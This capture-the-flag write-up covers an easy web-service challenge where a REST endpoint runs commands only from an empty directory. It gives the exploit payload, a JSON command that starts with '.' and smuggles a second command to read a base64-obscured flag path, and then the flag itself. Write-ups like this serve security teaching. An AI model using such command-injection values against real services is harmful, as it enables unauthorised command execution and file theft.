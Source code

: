 ## Background

    Author: spipm
    Category: Webservices
    Difficulty: Easy

## Technical

This challenge hosts a webservice that checks if the first word from user input is an executable file in the empty executables directory.

## Story

A REST service was created to execute commands from the leaderbot. It doesn't need additional security because there are no commands to execute. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."

But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power".

Can you help this poor bot execute commands to find direction?

<img src="./empty.jpg" width="500">

## Exploit

The directory itself is executable, so starting the command with "." will do the trick:

`{"command":". ;cat $(echo \"L3Vzci9zcmMvYXBwL2ZsYWcudHh0\"|base64 -d)"}`

## Flag

brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}

